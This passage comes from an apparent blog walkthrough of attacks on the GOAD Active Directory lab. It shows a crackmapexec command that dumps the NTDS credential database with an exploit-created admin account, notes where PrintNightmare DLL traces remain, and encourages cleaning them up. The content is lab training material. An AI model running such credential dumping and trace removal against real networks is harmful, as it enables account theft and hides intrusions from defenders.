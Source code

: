 - And enjoy your new admin account by dumping the ntds :)

```shell
cme smb winterfell.north.sevenkingdoms.local -u pnightmare2 -p 'Test123456789!' --ntds
```

![cme_admin_ntds.png](/assets/blog/GOAD/cme_admin_ntds.png)

### cleanup

- After the exploitation you will find your dlls inside : `C:\Windows\System32\spool\drivers\x64\3`

![pnightmare_traces.png](/assets/blog/GOAD/pnightmare_traces.png)


- And also inside : `C:\Windows\System32\spool\drivers\x64\3\Old\{id}\`

![traces_old.png](/assets/blog/GOAD/traces_old.png)

- Don't forget to clean up ;)


Next time we will have fun with ADCS (Certifried, ESC1, ESC8, ...) : : [Goad pwning part6]({% link _posts/2022-09-07-GOADv2-pwning-part6.md %})